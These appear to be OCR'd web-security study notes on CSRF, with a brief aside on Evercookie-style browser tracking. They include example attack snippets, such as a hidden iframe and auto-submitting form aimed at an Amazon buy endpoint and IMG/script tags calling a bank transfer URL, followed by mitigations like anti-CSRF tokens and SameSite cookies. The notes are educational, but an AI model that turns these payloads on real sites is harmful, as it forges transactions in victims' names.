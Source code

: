 Tracking user’s browser: (Evercookie project)
-	Flash, Java, HTML5 canvas, Local storage, HTTP ETags
-	Beware of EU cookie privacy legislation

It is generally not recommended to write our own session tracking code. Even the vendor implementations are not fully secure.

# BOOK-3:  Web Vulnerability Database
CSRF / One-click attack / session riding: Exploiting the trust the site has in the user’s browser
 - Automatically works in case of Integrated Windows Authentication (IWA)
 - Victim is not actively participating the attack
 - CSRF is amplified when application is also vulnerable to XSS
 - Amazon had one-click CSRF vulnerability (adding items to Victim’s cart by attacker)
 - Code for one-click attack:
Using hidden iframe so users won’t recognize
 - <iframe style="width: 0px; height: 0px; visibility: hidden" name="hidden"></iframe>
         Form submitting to Amazon for attack
 -  - <form name="csrf" action=http://amazon.com/gp/product/handle-buy-box method="post" target="hidden">
        <input type="hidden" #DETAILS OF ITEMS /> </form>
Using JS to submit with POST
 -  - <script>document.csrf.submit();</script>
 - Attack triggers: 
 -  - <IMG> | Easiest and works only for GET requests | Highest risk for application teams
 -  - <IMG src=http://www.bank.com/transfer.cgi?amount=10&dest=001-002>
 - <script> | Trigger a visit to specific URL
 - <script src=http://www.bank.com/transfer.cgi?amount=10&dest=001-002 >
 -  - <Iframe> | Simple or complex, for POST requests |
 -  - <iframe style="width: 1px; height: 1px; visibility: hidden" name="hidden"></iframe>
 -  - <form name="csrf" action=http://www.bank.com/transfer.cgi method="post" target="hidden">
 - <input type="hidden" name="amount" value="10"/></form>
 -  - <script>document.csrf.submit();</script>
 - XML HTTP (AJAX)
 -  - var xmlHttp = new XMLHttpRequest();
 -  - xmlHttp.open("POST", "test.txt",true);
 -  - xmlhttp.send(null);
 - Attack mitigations: Set all FORMS to submit only via POST (although not the only solution to CSRF), Lowering session timeout helps, Check referrer header, CAPTCHA (strong protection against automated requests, not practical for every functionality), Anti-CSRF token (Synchronizer token): Token must be random and verifiable at server, SameSite Cookie
 -  - CAPTCHA: Completely Automated Public Turing test to tell Computers and Humans Apart 
 -  - Anti-CSRF token: One token for user, reused for all pages
 -  - One token per form / page of the application
 -  - Hash (form + secret + sessionID) and compare at server
 -  - SameSite Cookie: Set-Cookie: key=value; SameSite=strict
 -  - Cookie is sent over same origin request
 - strict means third-party requests will be restricted
 - lax means Allow GET form requests, <a href>, Prerender link to send cookie
 -  - Limited support by browsers
 - Java, .NET, PHP: Use OWASP CSRFGuard
 - ASP.NET: Use ViewStateUserKey / AntiForgeryToken from System.Web.Mvc
 - Java: HTTP Data Integrity Validator (HDIV) has Anti-CSRF feature / Struts and Spring Security
Greybox preferred over Blackbox for testing
